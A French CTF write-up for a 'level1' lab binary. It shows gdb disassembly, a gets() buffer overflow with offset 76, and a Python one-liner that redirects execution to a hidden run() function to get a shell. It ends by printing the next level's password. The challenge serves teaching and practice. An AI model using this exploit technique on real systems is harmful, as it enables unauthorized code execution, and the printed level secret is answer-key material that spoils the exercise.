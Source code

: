 

# level1


## description
- Il y a un exécutable **level1**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** jusqu'à ce qu'on appuie sur **ENTREE**.

## Résolution


Avec gdb, on peut voir l'utilisation de gets qui est sensible au **buffer overflow.**

    Dump of assembler code for function main:
           0x08048480 <+0>:     push   %ebp
           0x08048481 <+1>:     mov    %esp,%ebp
           0x08048483 <+3>:     and    $0xfffffff0,%esp
           0x08048486 <+6>:     sub    $0x50,%esp
           0x08048489 <+9>:     lea    0x10(%esp),%eax
           0x0804848d <+13>:    mov    %eax,(%esp)
           0x08048490 <+16>:    call   0x8048340 <gets@plt>
           0x08048495 <+21>:    leave
           0x08048496 <+22>:    ret
        End of assembler dump.

Dans la ligne suivante, il y a un buffer de taille 80(0x50 = 80)

     0x08048486 <+6>:     sub    $0x50,%esp

Avec les informations actuelle, il n'y a aucun moyen d'ouvrir un shell.

En utilisant la commande **info function**.
On peut voir qu'il y a une fonction run qui n'est pas appelée dans le main.

    All defined functions:
    Non-debugging symbols:
    [...]
    0x08048444  run
    [...]
On désassemble la fonction run.

       0x08048444 <+0>:     push   %ebp
       0x08048445 <+1>:     mov    %esp,%ebp
       0x08048447 <+3>:     sub    $0x18,%esp
       0x0804844a <+6>:     mov    0x80497c0,%eax
       0x0804844f <+11>:    mov    %eax,%edx
       0x08048451 <+13>:    mov    $0x8048570,%eax
       0x08048456 <+18>:    mov    %edx,0xc(%esp)
       0x0804845a <+22>:    movl   $0x13,0x8(%esp)
       0x08048462 <+30>:    movl   $0x1,0x4(%esp)
       0x0804846a <+38>:    mov    %eax,(%esp)
       0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
       0x08048472 <+46>:    movl   $0x8048584,(%esp)
       0x08048479 <+53>:    call   0x8048360 <system@plt>
       0x0804847e <+58>:    leave
       0x0804847f <+59>:    ret

Il y a system qui est appelé avec **"/bin/sh"** en argument. 
**0x8048584** contient **"/bin/sh"**

       0x08048472 <+46>:    movl   $0x8048584,(%esp)
       0x08048479 <+53>:    call   0x8048360 <system@plt>

L'objectif est de remplacer l'adresse du registre **eip** par l'adresse de la fonction run grâce a un **buffer overflow**.
Grace  a ce [site](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), on va pouvoir savoir a quel endroit on doit remplacer l'adresse :
notre chaine de caractère:

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac

gdb affiche l'adresse du segfault

    Program received signal SIGSEGV, Segmentation fault.
    0x63413563 in ?? ()
le site indique offset 76. on va devoir ecrire 76 caractere avant l'adresse.

L'adresse de la fonction run est **0x08048444** mais on est en *little endian* donc on doit inverse l'adresse (**\x44\x84\x04\x08**).

On utilise python pour écrire 76 caractères avec l'adresse dans un fichier et on le transmet a cat.

    python -c 'print "A"*76+"\x44\x84\x04\x08"' > /tmp/run && cat /tmp/run - | ./level1

On est bien sur le user level2

    whoami
    level2
reste a afficher le fichier **.pass**.

    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
